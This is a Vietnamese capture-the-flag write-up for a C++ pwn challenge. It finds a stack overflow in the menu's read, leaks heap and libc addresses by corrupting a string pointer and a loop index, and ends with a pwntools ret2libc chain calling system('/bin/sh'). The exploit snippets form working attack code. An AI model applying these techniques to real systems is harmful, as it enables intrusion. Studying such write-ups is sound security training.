**1. Tìm bug**

 - ![image-20230324142756616](./assets/image-20230324142756616.png)

 - ![image-20230324002316587](./assets/image-20230324002316587.png)

 - `checksec` ta thấy `canary disable` 

 - Xem qua `main` bằng ida

 - ![image-20230324002544726](./assets/image-20230324002544726.png)

 - 1 chall được viết bằng `c++` đây là lý do nó ít `solved` mặc dù là bug cơ bản

 - Sau khi tìm hiểu chương trình thì ta nên focus vào 3 hàm `menu`, `sub_476E` mình đã đổi tên nó thành `allocate_str` và `new_kana` 

 - ![image-20230324004125614](./assets/image-20230324004125614.png)

 - Tại `menu` ta sẽ thấy ngay lỗi `overflow` khi mà `read` chỉ dừng với `\n`

 - ![image-20230324004324569](./assets/image-20230324004324569.png)

 - Hàm `allocate_str` nó sẽ gán `string a1 = (a2 + 48)`, ta sẽ đặt `breakpoint` tại hàm này ở `menu` để xem 2 tham số của nó được đặt tại đâu trên `stack`

 - ![image-20230324004658707](./assets/image-20230324004658707.png)

 - Tiếp đến hàm `new_kana` nó cho ta nhập vào `string a1+48`, đối với `main` thì `option` này sẽ nhập vào `string+48`

 - Ta sẽ debug qua để có một cái nhìn cụ thể

 - ![image-20230324132345540](./assets/image-20230324132345540.png)

 - `new_kana` thực hiện `std::cin` vào địa chỉ `0x007fffffffe310` 

 - sau khi nhập ta có cấu trúc của `string chunk` như sau:

 - ![image-20230324132558497](./assets/image-20230324132558497.png) 

 - Sau khi quay lại `menu` hàm `allocate_str` sẽ gán `v11 = a + 48`

 - ![image-20230324132833923](./assets/image-20230324132833923.png)

 - ![image-20230324133125986](./assets/image-20230324133125986.png)

 - Sau khi `allocate_str` được gọi thì `v11` sẽ được setup để được in ra theo `size` của nó thông qua 2 hàm kế tiếp này.

 - Điều này dẫn đến 2 hướng khai thác để có thể leak các giá trị đó là thay đổi `ptr` hoặc `size`, tuy nhiên ta có thể thấy rằng ở `a1+48` là chứa `0x00555555574d50` nhưng sau khi gán vào `v11` thì `v11` lại chứa một `ptr` khác là `0x00555555576590` điều này là do việc cấp phát động theo `size` và thực hiện `copy` vào `chunk` mới vừa được cấp phát.

 - Do vậy ta chỉ nên thay đổi `chunk`, ban đầu thì ta cứ tìm cách leak `heap` ra, do việc control `ptr` là khá khó vì nó luôn thay đổi.

 - ![image-20230324142534101](./assets/image-20230324142534101.png)

 - do `ptr` của `a1+48` nằm sau `saverip` nên ta sẽ `overflow` thay đổi giá trị `i` lúc này có thể `read` tùy ý trên `stack`

 - sau khi có được `heap` ta sẽ leak `libc` thông qua `chunk` này, một `chunk` trong `small_bins`

 - ![image-20230324143040413](./assets/image-20230324143040413.png)

**2.Exploit**

 - ```python
   new_kana(b'a'*0x430)
   payload = b'a'*0x5c + p8(0xc0-1)
   choice(payload, b'')
   
   r.recvuntil(b': ')
   heap = r.recv(16)[8:16]
   heap = u64(heap)
   print(hex(heap))
   ```
   
 - Ta sẽ tạo 1 `string` lớn thông qua `new_kana` điều này có 2 lợi ích khi nó sẽ tạo ra một lượng lớn `size` và có một `chunk` sẽ xuất hiện trong `small_bins`

 - Đồng thời thay đổi giá trị `i` để nó `read` tới `a1+48`

 - ![image-20230324143825162](./assets/image-20230324143825162.png)

 - ![image-20230324144014737](./assets/image-20230324144014737.png)

 - Và giờ ta có thể leak đc `heap`
 - ![image-20230324144114884](./assets/image-20230324144114884.png)
 - ```python
   newheap = heap + 0x6e0
   print(hex(newheap))
   choice(payload, p64(newheap))
   
   r.recvuntil(b': ')
   libc.address = u64(r.recv(8)) - libc_off
   print(hex(libc.address))
   ```
 - Tiếp theo ta sẽ ghi lại `ptr` thành `heap` của `small_bins` nơi chứa `libc` và thực hiện `leak libc`.
 - ![image-20230324145741396](./assets/image-20230324145741396.png)
 - ```python
   ret = libc.address + pop_rdi_off + 1
   pop_rdi = libc.address + pop_rdi_off
   print(hex(ret))
   print(hex(pop_rdi))
   
   payload = b'a'*0x5c + p8(0x78-1)
   payload += flat(
       pop_rdi, next(libc.search(b'/bin/sh')),
       ret,
       libc.sym['system']
       )
   choice(payload)
   ```
 - Sau khi leak `libc` ta `overwrite saverip` thực thi `system("/bin/sh") để lấy shell
 - ![image-20230324145832522](./assets/image-20230324145832522.png)

   